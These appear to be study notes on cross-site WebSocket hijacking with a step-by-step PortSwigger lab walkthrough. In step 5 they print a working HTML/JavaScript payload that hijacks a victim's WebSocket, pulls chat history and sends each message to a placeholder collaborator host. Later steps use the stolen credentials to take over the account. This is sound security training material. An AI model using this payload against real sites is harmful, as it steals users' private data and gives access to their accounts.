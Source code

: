 ## What is cross-site WebSocket hijacking?
   - Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a CSRF vulnerability on a WebSocket handshake. 
   - It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.
   - An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.
   - The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

## What is the impact of cross-site WebSocket hijacking?

 **A successful cross-site WebSocket hijacking attack will often enable an attacker to:**

   - **Perform unauthorized actions masquerading as the victim user**
	   - As with regular CSRF the malicious person can send any kind of messages to the application running on the server. If the application relies on messages sent from the user's browser via WebSocket for important tasks(sensitive actions). Then attacker, by using a different domain, can create the right kind of messages to trick the application into performing sensitive actions without the user's knowledge or consent.

   - **Retrieve sensitive data that the user can access**
	   - Unlike with regular CSRF, In this kind of attack(*cross-site WebSocket hijacking*), the malicious person not only sends messages to the vulnerable application but can also receive responses from it, allowing them to have a back-and-forth conversation or interaction with the application, which is not usually possible in a standard CSRF attack.
	   - If the application uses server-generated WebSocket messages to return any sensitive data to the user, then the attacker can intercept those messages and capture the victim user's data.

## Performing a cross-site WebSocket hijacking attack
   - Since a cross-site WebSocket hijacking attack is essentially a [CSRF vulnerability](https://portswigger.net/web-security/csrf) on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.
   - In terms of the [normal conditions for CSRF attacks](https://portswigger.net/web-security/csrf#how-does-csrf-work), you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

  **For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:**
```js
GET /chat HTTP/1.1 
Host: normal-website.com 
Sec-WebSocket-Version: 13 
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w== 
Connection: keep-alive, Upgrade 
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2 
Upgrade: websocket  
```

#### Note
The `Sec-WebSocket-Key` header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.

If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using [WebSockets](https://portswigger.net/web-security/websockets). The attack might involve:
   - Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
   - Sending WebSocket messages to retrieve sensitive data.
   - Sometimes, just waiting for incoming messages to arrive containing sensitive data.

## Steps to solve lab
### Title - Cross-site WebSocket hijacking

**Desc** - This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets). To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this to gain access to their account.


#### What we found out after analyzing lab
![[WebSockets14.png]]

#### Whole scenario of what we are going to do?
![[WebSockets15.png]]

1. Browse to the application function that uses WebSockets and also look for entries appearing in the WebSockets history tab within Burp Proxy.
![[WebSockets2.png]]

2. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
![[authentication27.png]]

3. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no [CSRF](https://portswigger.net/web-security/csrf) tokens.
![[WebSockets16.png]]

4. Right-click on the handshake request and select "Copy URL".

5. In the browser, go to the exploit server and paste the following template into the "Body" section:
```js
<script>
    // Creation of new WebSocket(that WebSocket that is used by lab)
    var ws = new WebSocket('wss://your-websocket-url');

    // Sending the "READY" command as soon as WebSocket connection is open(onopen is a event). After sending the "READY" command the WebSocket will reply with the entire chat history
    ws.onopen = function() {
        ws.send("READY");
    };
  
    // Once we receive messages from the WebSocket then we do a GET request with those messages to our collaborator server
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

6. Replace `your-websocket-url` with the URL from the WebSocket handshake (`YOUR-LAB-ID.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator).
7. Click "Deliver exploit to victim".
8. Poll for interactions in the Collaborator tab. Verify that the attack has successfully retrieved carlos chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
![[WebSockets17.png]]

9. Now, login with these credentials to solve the lab.


